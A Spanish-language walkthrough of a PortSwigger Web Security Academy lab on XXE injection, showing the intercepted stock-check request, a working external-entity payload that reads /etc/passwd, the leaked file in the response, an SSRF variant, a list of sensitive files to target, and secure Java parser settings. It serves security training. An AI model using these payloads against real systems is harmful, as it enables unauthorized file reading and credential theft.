


# PortSwigger Web Security Academy — Lab 1 de XXE

## Explotación de XXE usando entidades externas para recuperar archivos

**URL del lab:** `https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files`

**Categoría:** XXE — XML External Entity Injection  
**Objetivo:** recuperar el contenido de `/etc/passwd` mediante una entidad externa XML.  
**Funcionalidad vulnerable:** `Check stock`, porque envía XML al servidor y este XML es parseado de forma insegura.

---

## 1. Enunciado del laboratorio

El laboratorio tiene una función de comprobación de stock que analiza entradas XML y devuelve cualquier valor inesperado en la respuesta.

Para resolverlo, hay que inyectar una entidad externa XML para recuperar el contenido del archivo:

```text
/etc/passwd
```

El punto clave es que el servidor procesa XML controlado por el usuario y permite que el parser XML resuelva entidades externas.

---

## 2. Qué es XXE

XXE significa **XML External Entity Injection**.

Es una vulnerabilidad que ocurre cuando una aplicación:

1. Recibe XML controlado por el usuario.
2. Lo procesa con un parser XML.
3. Permite `DOCTYPE`.
4. Permite entidades externas.
5. Sustituye esas entidades por contenido externo, como archivos locales o URLs.

El resultado puede ser lectura de archivos del servidor, SSRF, acceso a recursos internos o, en algunos escenarios, ejecución de código dependiendo del parser y del entorno.

La vulnerabilidad no está en XML por existir. El problema es permitir características peligrosas del parser cuando el XML viene de una entrada no confiable.

---

## 3. Qué es una entidad XML

En XML se pueden definir entidades, que funcionan como valores reutilizables.

Ejemplo simple:

```xml
<!DOCTYPE test [
  <!ENTITY saludo "hola">
]>

<mensaje>&saludo;</mensaje>
```

Cuando el parser procesa el XML, reemplaza:

```xml
&saludo;
```

por:

```text
hola
```

El XML resultante queda conceptualmente así:

```xml
<mensaje>hola</mensaje>
```

Esto por sí solo no es malicioso. El problema aparece cuando la entidad no contiene un texto fijo, sino que apunta a un recurso externo.

---

## 4. Qué significa SYSTEM en una entidad XML

`SYSTEM` indica que la entidad obtiene su contenido desde un recurso externo.

Ejemplo:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Desglose:

```xml
<!ENTITY xxe ...>
```

Define una entidad llamada `xxe`.

```xml
SYSTEM
```

Indica que el contenido viene de fuera del XML.

```xml
"file:///etc/passwd"
```

Indica la ubicación del recurso externo.

Luego, cuando el XML contiene:

```xml
&xxe;
```

el parser intenta sustituir esa entidad por el contenido real de `/etc/passwd`.

---

## 5. Por qué `file:///etc/passwd` funciona

`file://` es un esquema URI que representa archivos locales.

En este caso:

```text
file:///etc/passwd
```

significa:

```text
leer el archivo local /etc/passwd desde el sistema de archivos del servidor
```

Es importante entender que el archivo se lee desde el servidor, no desde tu máquina.

Tu navegador no está leyendo tu propio `/etc/passwd`. La lectura la realiza el parser XML del backend.

---

## 6. Qué es `/etc/passwd`

`/etc/passwd` es un archivo típico de sistemas Linux que contiene información de usuarios locales.

Suele tener líneas de este estilo:

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

En laboratorios de seguridad se usa mucho porque:

- existe en casi cualquier Linux;
- es fácil de reconocer;
- normalmente es legible por usuarios no privilegiados;
- demuestra lectura arbitraria de archivos.

No contiene las contraseñas reales en sistemas modernos. La `x` indica que las contraseñas están en otro archivo, normalmente `/etc/shadow`, que suele estar protegido.

---

## 7. Página inicial del laboratorio

Al iniciar el laboratorio se abre una tienda con productos.



La vulnerabilidad no está en la home directamente. Está en la funcionalidad de comprobar stock dentro de un producto.

---

## 8. Dónde está la funcionalidad vulnerable

Entramos en cualquier producto y pulsamos **Check stock**.

Al capturar la petición con Burp Suite vemos algo como esto:

```http
POST /product/stock HTTP/2
Host: 0a6200890443d85381fc163600e6000d.web-security-academy.net
Cookie: session=3GPH0ExlnY8RLz8lcW4dNsl6qO5oGDPD
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6200890443d85381fc163600e6000d.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a6200890443d85381fc163600e6000d.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```

La cabecera más importante es esta:

```http
Content-Type: application/xml
```

Eso confirma que el backend está recibiendo XML.

El cuerpo original es:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId>2</storeId>
</stockCheck>
```

---

## 9. Por qué esta petición es interesante

La aplicación espera dos valores:

```xml
<productId>1</productId>
<storeId>2</storeId>
```

El servidor parsea el XML para leer esos valores.

La pregunta ofensiva es:

> ¿El parser XML permite `DOCTYPE` y entidades externas?

Si la respuesta es sí, podemos definir una entidad que lea `/etc/passwd` y colocarla dentro de un campo que la aplicación procese.

---

## 10. Payload XXE usado

Modificamos el XML original y lo dejamos así:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>2</storeId>
</stockCheck>
```

También puede funcionar sin la declaración XML inicial, pero es buena práctica mantenerla:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>

<stockCheck>
    <productId>&xxe;</productId>
    <storeId>2</storeId>
</stockCheck>
```

---

## 11. Desglose del payload

### 11.1 Declaración XML

```xml
<?xml version="1.0" encoding="UTF-8"?>
```

Indica que el documento es XML versión 1.0 y usa codificación UTF-8.

No es la parte maliciosa.

### 11.2 DOCTYPE

```xml
<!DOCTYPE test [
  ...
]>
```

`DOCTYPE` permite declarar una DTD interna.

DTD significa **Document Type Definition**.

Dentro de la DTD podemos definir entidades.

### 11.3 Entidad externa

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Esto define una entidad llamada `xxe` cuyo valor debe cargarse desde el archivo local `/etc/passwd`.

### 11.4 Uso de la entidad

```xml
<productId>&xxe;</productId>
```

Aquí usamos la entidad.

Si el parser es vulnerable, sustituirá `&xxe;` por el contenido del archivo.

---

## 12. Qué ocurre internamente

El servidor recibe esto:

```xml
<productId>&xxe;</productId>
```

El parser XML ve que existe una entidad llamada `xxe`:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

Entonces intenta resolverla.

El resultado interno pasa a ser algo como:

```xml
<productId>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...</productId>
```

Después la lógica de la aplicación intenta usar ese valor como `productId`.

Como ya no es un número válido, devuelve un error.

Y ese error refleja el valor recibido.

Por eso vemos el contenido de `/etc/passwd` en la respuesta.

---

## 13. Respuesta obtenida

La respuesta fue:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2338

"Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:12001:12001::/home/peter:/bin/bash
carlos:x:12002:12002::/home/carlos:/bin/bash
user:x:12000:12000::/home/user:/bin/bash
elmer:x:12099:12099::/home/elmer:/bin/bash
academy:x:10000:10000::/academy:/bin/bash
messagebus:x:101:101::/nonexistent:/usr/sbin/nologin
dnsmasq:x:102:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
systemd-timesync:x:103:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:104:105:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:105:106:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
mysql:x:106:107:MySQL Server,,,:/nonexistent:/bin/false
postgres:x:107:110:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
usbmux:x:108:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:109:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
mongodb:x:110:117::/var/lib/mongodb:/usr/sbin/nologin
avahi:x:111:118:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:112:119:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
geoclue:x:113:120::/var/lib/geoclue:/usr/sbin/nologin
saned:x:114:122::/var/lib/saned:/usr/sbin/nologin
colord:x:115:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:116:124:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
gdm:x:117:126:Gnome Display Manager:/var/lib/gdm3:/bin/false
"
```

El `400 Bad Request` no significa que el ataque haya fallado.

Significa que la aplicación no pudo usar el contenido de `/etc/passwd` como ID de producto válido.

Pero justo en el mensaje de error aparece el contenido del archivo. Eso resuelve el laboratorio.

---

## 14. Por qué aparece como `Invalid product ID`

El campo atacado fue:

```xml
<productId>&xxe;</productId>
```

La aplicación espera que `productId` sea un número, por ejemplo:

```text
1
```

Pero tras resolver la entidad, recibe algo como:

```text
root:x:0:0:root:/root:/bin/bash
...
```

Eso no es un ID válido.

Entonces devuelve un mensaje de error parecido a:

```text
Invalid product ID: <valor recibido>
```

Como el valor recibido es el contenido de `/etc/passwd`, el archivo queda exfiltrado en la respuesta.

---

## 15. Laboratorio resuelto

Tras recibir `/etc/passwd`, el laboratorio queda resuelto.



---

## 16. Flujo completo del ataque

El flujo completo es:

```text
1. El usuario pulsa Check stock.
2. El navegador envía XML al servidor.
3. El atacante intercepta la petición en Burp.
4. Añade un DOCTYPE con una entidad externa.
5. La entidad apunta a file:///etc/passwd.
6. Inserta &xxe; dentro de productId.
7. El parser XML resuelve la entidad.
8. El servidor lee /etc/passwd.
9. La aplicación intenta usar ese contenido como productId.
10. Devuelve error reflejando el valor inesperado.
11. El contenido de /etc/passwd aparece en la respuesta.
12. Lab resuelto.
```

---

## 17. Por qué esta vulnerabilidad es crítica

XXE puede permitir mucho más que leer `/etc/passwd`.

Dependiendo del entorno, puede permitir:

- leer archivos sensibles;
- leer claves privadas;
- obtener credenciales de configuración;
- acceder a rutas internas;
- hacer SSRF;
- consultar servicios internos;
- provocar denegación de servicio;
- exfiltrar datos fuera de banda.

Ejemplos de archivos sensibles que podrían intentarse en entornos reales autorizados:

```text
/etc/passwd
/etc/hostname
/etc/hosts
/proc/self/environ
/var/www/html/config.php
/home/user/.ssh/id_rsa
```

En Windows, rutas típicas de prueba podrían ser:

```text
file:///c:/windows/win.ini
file:///c:/boot.ini
```

---

## 18. XXE y SSRF

La misma técnica también puede apuntar a URLs en vez de archivos.

Ejemplo:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "http://localhost:8080/admin">
]>
```

Si el parser intenta resolver esa entidad, el servidor hará una petición HTTP a `localhost:8080`.

Eso convierte XXE en SSRF.

La diferencia es:

```text
file:///etc/passwd
```

lee archivos locales.

```text
http://localhost:8080/admin
```

provoca una petición de red desde el servidor.

---

## 19. Diferencia entre XXE in-band y out-of-band

Este laboratorio es **in-band XXE**.

Eso significa que el contenido del archivo aparece directamente en la respuesta HTTP.

Flujo:

```text
Entidad lee archivo → contenido vuelve en la misma respuesta
```

En un **out-of-band XXE**, el contenido no vuelve directamente. Se usa un servidor externo controlado por el atacante para recibir una conexión DNS o HTTP.

Flujo:

```text
Entidad externa → servidor hace conexión a dominio externo → atacante observa la interacción
```

Este lab es más sencillo porque la respuesta refleja el contenido en el error.

---

## 20. Diferencia entre entidad interna y entidad externa

Entidad interna:

```xml
<!ENTITY test "hola">
```

El valor está dentro del propio XML.

Entidad externa:

```xml
<!ENTITY xxe SYSTEM "file:///etc/passwd">
```

El valor se obtiene desde fuera del XML.

La entidad externa es la peligrosa en este caso, porque permite que el parser lea recursos del entorno del servidor.

---

## 21. Por qué `DOCTYPE` es tan importante

Sin `DOCTYPE`, normalmente no puedes declarar entidades en el XML.

El bloque:

```xml
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

es lo que introduce la definición maliciosa.

Por eso muchas defensas contra XXE empiezan deshabilitando por completo los `DOCTYPE`.

---

## 22. Por qué se coloca la entidad en `productId`

Se coloca en `productId` porque la aplicación devuelve valores inesperados en la respuesta.

Si colocáramos la entidad en un campo que el servidor no refleja, el archivo podría leerse internamente pero no verlo en la respuesta.

En este laboratorio, `productId` es ideal porque:

- espera un número;
- si recibe texto raro, genera un error;
- el error incluye el valor recibido.

Por eso:

```xml
<productId>&xxe;</productId>
```

produce:

```text
Invalid product ID: root:x:0:0:...
```

---

## 23. Indicadores de que una aplicación puede ser vulnerable a XXE

Durante pruebas autorizadas, algunos indicadores son:

- `Content-Type: application/xml`;
- cuerpos XML en peticiones POST;
- APIs SOAP;
- respuestas que reflejan valores del XML;
- errores XML detallados;
- parsers antiguos;
- endpoints que aceptan subida/importación de XML;
- integración con documentos Office, SVG, SAML o configuración XML.

En este lab, el indicador más claro es:

```http
Content-Type: application/xml
```

y el cuerpo:

```xml
<stockCheck>
    <productId>1</productId>
    <storeId>2</storeId>
</stockCheck>
```

---

## 24. Qué defensas deberían aplicarse

La defensa correcta es desactivar las características peligrosas del parser XML.

Medidas recomendadas:

1. Deshabilitar `DOCTYPE`.
2. Deshabilitar entidades externas.
3. Deshabilitar resolución de DTD externas.
4. Usar parsers seguros por defecto.
5. Usar formatos menos peligrosos si no se necesita XML.
6. Validar el XML contra un esquema estricto.
7. No reflejar errores internos al usuario.
8. Ejecutar el parser con mínimos privilegios.
9. Restringir acceso del proceso a archivos sensibles.
10. Bloquear salidas de red innecesarias desde el servidor.

Ejemplo conceptual de configuración segura en Java:

```java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
factory.setXIncludeAware(false);
factory.setExpandEntityReferences(false);
```

La idea no es filtrar strings como `SYSTEM` o `/etc/passwd`. Eso sería débil.

La defensa real es impedir que el parser pueda resolver entidades externas.

---

## 25. Error del desarrollador

El error principal fue permitir que un XML controlado por el usuario fuera procesado con entidades externas habilitadas.

En forma simple:

```text
XML del usuario + parser inseguro + entidades externas = XXE
```

El error secundario fue reflejar en la respuesta un valor inesperado, lo que permitió ver el contenido del archivo directamente.

---

## 26. Resumen final

Payload usado:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>2</storeId>
</stockCheck>
```

Resultado:

```text
Invalid product ID: root:x:0:0:root:/root:/bin/bash...
```

Idea clave:

```text
El servidor parsea XML controlado por el usuario.
El atacante define una entidad externa.
El parser lee /etc/passwd.
La aplicación refleja el contenido en un error.
```

Frase para recordar:

```text
XXE ocurre cuando el parser XML puede resolver entidades externas controladas por el atacante.
```

